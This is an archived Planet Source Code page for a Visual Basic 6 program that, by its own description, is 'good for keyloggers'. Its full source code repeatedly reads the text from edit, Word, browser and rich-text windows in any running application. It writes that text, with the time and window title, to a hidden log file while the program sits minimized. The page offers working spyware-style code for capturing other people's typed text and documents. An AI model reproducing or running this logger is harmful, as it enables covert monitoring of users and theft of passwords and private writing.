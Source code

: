 ﻿<div align="center">

## Grab Window Text


</div>

### Description

This code will grab any text on a Window Text Box and log it to a file... with time and the window caption... Good for keyloggers :]
 
### More Info
 


<span>             |<span>
---                |---
**Submitted On**   |
**By**             |[kodapt](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByAuthor/kodapt.md)
**Level**          |Advanced
**User Rating**    |4.3 (17 globes from 4 users)
**Compatibility**  |VB 6\.0
**Category**       |[Windows API Call/ Explanation](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByCategory/windows-api-call-explanation__1-39.md)
**World**          |[Visual Basic](https://github.com/Planet-Source-Code/PSCIndex/blob/master/ByWorld/visual-basic.md)
**Archive File**   |[](https://github.com/Planet-Source-Code/kodapt-grab-window-text__1-22177/archive/master.zip)





### Source Code

```
'Grab Window Edit Text Box by kodapt - 2001/4/6
' It will grab the text in any Edit Box of any app running on your system.
' Just Start the program and minimize it... then try to open a .txt file and
' then go to C:\testes.txt to see the all text there...
'don´t vote... this is a cra*... :]
' cya, koda
'********************************************************
'API Declarations
'to get the foreground window
Private Declare Function GetForegroundWindow Lib "user32" () As Long
'to send a message system
Private Declare Function SendMessage Lib "user32" Alias "SendMessageA" (ByVal hwnd As Long, ByVal wMsg As Long, ByVal wParam As Long, lParam As Any) As Long
'to get the cursor position
Private Declare Function GetCursorPos Lib "user32" (lpPoint As POINTAPI) As Long
'to get the window from a point (y,x)
Private Declare Function WindowFromPoint Lib "user32" (ByVal xPoint As Long, ByVal yPoint As Long) As Long
'to get the window text
Private Declare Function GetWindowText Lib "user32" Alias "GetWindowTextA" (ByVal hwnd As Long, ByVal lpString As String, ByVal cch As Long) As Long
'to get the class name (edit,combobox etc..)
Private Declare Function GetClassName Lib "user32" Alias "GetClassNameA" (ByVal hwnd As Long, ByVal lpClassName As String, ByVal nMaxCount As Long) As Long
Public strBuffer As String ' the string to append to the file that has all the text "grabed"
Public iEnum As Integer ' the file integer to open and write (I/O)
Public hJanelaCima As Long ' the window wich the user has the mouse over
Public hJanelaAntiga As Long ' the ancient window, to controlo if there´s a new window or not
'constants to grab the text
Private Const WM_GETTEXT = &HD
Private Const WM_GETTEXTLENGTH = &HE
'type for the GetCursorPos API
Private Type POINTAPI
    x As Long
    y As Long
End Type
Private Sub Form_Load()
'when starting the program, print date and time of the new logging...
strBuffer = "=============================================================" & vbCrLf
strBuffer = strBuffer & "Date of log: " & Format(Date, "YYYY-MM-DD") & vbCrLf
strBuffer = strBuffer & "Started logging at: " & Format(Time$, "HH:MM") & vbCrLf
strBuffer = strBuffer & "=============================================================" & vbCrLf
iEnum = FreeFile
'append it in the file
Open "C:\testes.txt" For Append As #iEnum
  Print #iEnum, strBuffer
  Close #iEnum
  strBuffer = ""
'enable the timer...
Timer1.Enabled = True
End Sub
Private Sub Timer1_Timer()
  Dim ptCursor As POINTAPI ' the cursor type variable
  Dim texto_janela As String ' the window text
  Dim rc As Long
  Dim nome_classe As String ' the class name
  Dim fenster As Long ' the foreground window.. in deutsh.. ich wisse deutshe auch...
fenster = GetForegroundWindow ' get the window where user is
'create string objects
texto_janela = String(100, Chr(0))
nome_classe = String(100, Chr(0))
Call GetCursorPos(ptCursor) ' get the cursor position
'get the window(handle) where the user has the mouse
hJanelaCima = WindowFromPoint(ptCursor.x, ptCursor.y)
'get the window text and class name
rc = GetWindowText(fenster, texto_janela, Len(texto_janela))
rc = GetClassName(hJanelaCima, nome_classe, 100)
'format the asshol*s...
texto_janela = Left(texto_janela, InStr(texto_janela, Chr(0)) - 1)
nome_classe = Left(nome_classe, InStr(nome_classe, Chr(0)) - 1)
' check the class names... i tried some like WinWord and VB, but didn´t worked..
If nome_classe = "Edit" Or nome_classe = "_WwG" Or nome_classe = "Internet Explorer_Server" Or nome_classe = "RichEdit20A" Or nome_classe = "VbaWindow" Then
'if this is the same window, forget
If hJanelaCima = hJanelaAntiga Then Exit Sub
'there´s no text? Out!
If WindowText(hJanelaCima) = Empty Then Exit Sub
'put the ancient window handle, with the current one
hJanelaAntiga = hJanelaCima
'build string with time and the text grabed with WindowText
strBuffer = Time$ & " - " & texto_janela & vbCrLf
strBuffer = strBuffer & WindowText(hJanelaCima) & vbCrLf
'append to the file
Open "C:\testes.txt" For Append As #iEnum
Print #iEnum, strBuffer
Close #iEnum
End If
End Sub
'grab the text window with this function.. argument- the window handle
Public Function WindowText(window_hwnd As Long) As String
  Dim txtlen As Long
  Dim txt As String
  If window_hwnd = 0 Then Exit Function
    'send the message to get the text lenght
    txtlen = SendMessage(window_hwnd, WM_GETTEXTLENGTH, 0, 0)
  If txtlen = 0 Then Exit Function
     txtlen = txtlen + 1
     txt = Space$(txtlen)
     'send the message to get the text
     txtlen = SendMessage(window_hwnd, WM_GETTEXT, txtlen, ByVal txt)
     'put that on the function
     WindowText = Left$(txt, txtlen)
End Function
```

